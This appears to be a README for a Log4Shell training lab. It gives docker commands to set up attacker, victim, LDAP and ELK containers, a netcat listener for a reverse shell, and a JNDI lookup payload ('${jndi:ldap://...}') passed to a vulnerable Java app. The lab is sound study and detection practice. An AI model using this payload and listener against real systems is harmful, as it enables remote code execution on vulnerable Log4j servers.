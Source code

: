 # 3204

## Set up Attack
```
cd log4jshell-lab/attacker
docker-compose build 
docker-compose up -d 
```

## Start the java app
```
cd log4jshell-lab/victim/vuln-apps/others/basicJar
docker run -it --rm -v "$(pwd)":/opt/maven -w /opt/maven maven mvn clean install
```

## In Workstation 1
### Open Workstation Terminal
Open 2 terminals, one for nc to listen and another ro execute exploit
```
sudo docker exec -it attacker-workstation1 bash
```
### Start net cat listener 
```
nc -lvnp 443
```

### Run exploit 
Replace `127.0.0.1` with IP address of LDAP
```
cd /basicJar
java -cp target/Log4jLabProject-1.0-SNAPSHOT-all.jar com.log4jshell.App '${jndi:ldap://127.0.0.1:1389/Run}'
```



# 3204


# run file
#sudo docker-compose build<br/>
#sudo docker-compose up -d 


# check IP
#sudo docker-compose ps 
	sudo docker-compose <id container> | grep IPAddress
  
# stop docker 
	sudo docker-compose kill && docker-compose rm -f 

# Network connectivity
	docker network connect bridge web-server
	docker network connect bridge ldap-server
	docker network connect bridge 3204-logstash-1
	docker network connect bridge 3204-kibana-1
	docker network connect bridge 3204-elasticsearch-1

	docker network disconnect attacker_log4j web-server
	docker network disconnect attacker_log4j ldap-server
	docker network disconnect 3204_elk 3204-logstash-1
	docker network disconnect 3204_elk 3204-kibana-1
	docker network disconnect 3204_elk 3204-elasticsearch-1

	docker network rm attacker_log4j<br/>
	docker network rm 3204_elk

